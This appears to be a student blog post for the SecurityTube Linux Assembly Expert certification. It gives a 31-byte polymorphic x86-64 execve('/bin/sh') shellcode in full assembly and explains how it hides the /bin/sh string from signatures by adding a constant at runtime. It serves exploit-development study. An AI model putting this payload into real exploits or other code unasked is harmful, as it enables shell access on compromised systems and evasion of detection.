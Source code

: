 # Polymorphic version of a 33 byte execve shellcode

Original version:
```
http://shell-storm.org/shellcode/files/shellcode-76.php
```

This post describes a polymorphic version of a 33 byte execve shellcode.
My polymorphic version is 31 bytes in size and thus 2 bytes shorter then its original version.

## Changes

1. I used ```cdq``` in order to zero out rdx.
2. The original version uses ```shr``` to obfuscate the /bin/sh string. I changed this obfuscation by moving hex(/bin/sh) - 0x13377331 in rbx and then adding 0x13377331 again to deobfuscate at runtime.

## Asm
```
; Polymorphic shellcode version of http://shell-storm.org/shellcode/files/shellcode-76.php
; Original size: 33 bytes
; Polymorphic size: 31 bytes


global _start
section .text
_start:

    xor rax, rax ; clear out rax
    cdq          ; clear out rdx
    push rax
    pop rsi

    mov rbx, 0x68732f2f5b31eefe ; Obfuscated /bin/sh
    add rbx, 0x13377331 ; Deobfuscate

    push rax ; Null byte to mark the end of the /bin/sh string
    push rbx ; Put deobfuscated /bin/sh on stack

    push rsp
    pop rdi ; rdi points to /bin/sh

    mov al, 0x3b
    syscall


```

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification.

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert

Student ID: SLAE64-1581
